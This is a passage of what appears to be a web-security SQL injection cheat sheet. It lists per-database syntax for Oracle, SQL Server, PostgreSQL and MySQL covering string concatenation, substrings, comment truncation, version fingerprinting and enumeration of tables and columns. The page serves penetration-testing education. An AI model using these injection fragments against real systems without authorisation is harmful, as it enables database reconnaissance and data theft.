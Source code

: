 This [SQL injection](https://portswigger.net/web-security/sql-injection) cheat sheet contains examples of useful syntax that you can use to perform a variety of tasks that often arise when performing SQL injection attacks.

## String concatenation

You can concatenate together multiple strings to make a single string.

<table><tbody><tr><th>Oracle</th><td><code>'foo'||'bar'</code></td></tr><tr><th>Microsoft</th><td><code>'foo'+'bar'</code></td></tr><tr><th>PostgreSQL</th><td><code>'foo'||'bar'</code></td></tr><tr><th>MySQL</th><td><code>'foo' 'bar'</code> [Note the space between the two strings]<br><code>CONCAT('foo','bar')</code><br></td></tr></tbody></table>

## Substring

You can extract part of a string, from a specified offset with a specified length. Note that the offset index is 1-based. Each of the following expressions will return the string `ba`.

<table><tbody><tr><th>Oracle</th><td><code>SUBSTR('foobar', 4, 2)</code></td></tr><tr><th>Microsoft</th><td><code>SUBSTRING('foobar', 4, 2)</code></td></tr><tr><th>PostgreSQL</th><td><code>SUBSTRING('foobar', 4, 2)</code></td></tr><tr><th>MySQL</th><td><code>SUBSTRING('foobar', 4, 2)</code></td></tr></tbody></table>

You can use comments to truncate a query and remove the portion of the original query that follows your input.

<table><tbody><tr><th>Oracle</th><td><code>--comment<br></code></td></tr><tr><th>Microsoft</th><td><code>--comment<br>/*comment*/</code></td></tr><tr><th>PostgreSQL</th><td><code>--comment<br>/*comment*/</code></td></tr><tr><th>MySQL</th><td><code>#comment</code><br><code>-- comment</code> [Note the space after the double dash]<br><code>/*comment*/</code></td></tr></tbody></table>

## Database version

You can query the database to determine its type and version. This information is useful when formulating more complicated attacks.

<table><tbody><tr><th>Oracle</th><td><code>SELECT banner FROM v$version<br>SELECT version FROM v$instance<br></code></td></tr><tr><th>Microsoft</th><td><code>SELECT @@version</code></td></tr><tr><th>PostgreSQL</th><td><code>SELECT version()</code></td></tr><tr><th>MySQL</th><td><code>SELECT @@version</code></td></tr></tbody></table>

## Database contents

You can list the tables that exist in the database, and the columns that those tables contain.

<table><tbody><tr><th>Oracle</th><td><code>SELECT * FROM all_tables<br>SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'</code></td></tr><tr><th>Microsoft</th><td><code>SELECT * FROM information_schema.tables<br>SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'<br></code></td></tr><tr><th>PostgreSQL</th><td><code>SELECT * FROM information_schema.tables<br>SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'<br></code></td></tr><tr><th>MySQL</th><td><code>SELECT * FROM information_schema.tables<br>SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'<br></code></td></tr></tbody></table>
